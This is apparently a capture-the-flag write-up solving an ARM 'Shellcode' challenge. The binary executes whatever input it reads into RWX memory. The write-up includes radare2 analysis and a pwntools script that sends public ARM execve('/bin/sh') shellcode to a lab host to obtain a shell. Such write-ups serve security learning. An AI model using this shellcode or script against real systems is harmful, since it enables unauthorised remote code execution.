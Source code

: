 # Shellcode - 964

> You will need access into Home Invasion network to complete this challenge. There is only one flag in this challenge.
>  
> It's exactly what it says.
>  
> nc 192.168.51.12 10003

First, as we do with any binary, we analysed the file. According to `r2` (Radare2), the binary is ARM architecture, has no PIC (Position independent Code) and has no canary. It seemed almost perfect for a classic stack smashing exploit.

```
[0x000103f0]> iI
arch     arm
binsz    7149
bintype  elf
bits     32
canary   false
class    ELF32
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux-armhf.so.3
lang     c
linenum  true
lsyms    true
machine  ARM
maxopsz  4
minopsz  4
nx       true
os       linux
pcalign  4
pic      false
relocs   true
relro    partial
rpath    NONE
static   false
stripped false
subsys   linux
va       true
```

So, using `binary ninja`, we decided to dive into the `<main>` function. The binary is not stripped, so it is easy to find where the function is. 

![](../../img/iot_ctf2018_shellcode_main_disassembly.png)

We ignored `bl setup`. It does nothing relevant to our exploit. The program first maps 0x1000 bytes of memory using `mmap` to be readable, writable and executable. Then it `reads` 1024 (ie 0x400) characters into the mapped memory, which is the returned value from `mmap`. Lastly, `blx r3` executes any instructions in the mapped memory.

Essentially, the source and the sink were right beside each other. This challenge was a no-brainer. The input just had to be shellcode to get a shell. At the time of solving this challenge, we were not good with ARM shellcodes. So, we used the shellcode from [this Exploit Database website](https://www.exploit-db.com/exploits/43520/).

```
from pwn import *

r = remote('192.168.51.12',10003)



exploit = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x0e\x30\x01\x90\x49\x1a\x92\x1a\x08\x27\xc2\x51\x03\x37\x01\xdf\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
# Exploit taken from: https://www.exploit-db.com/exploits/43520/

r.sendline(exploit)

r.interactive()
```

After running the script, we got a shell, and could print out the flag. Unfortunately, however, we forgot to keep a record of the flag, so we cannot show you what the flag was. Sorry~ 
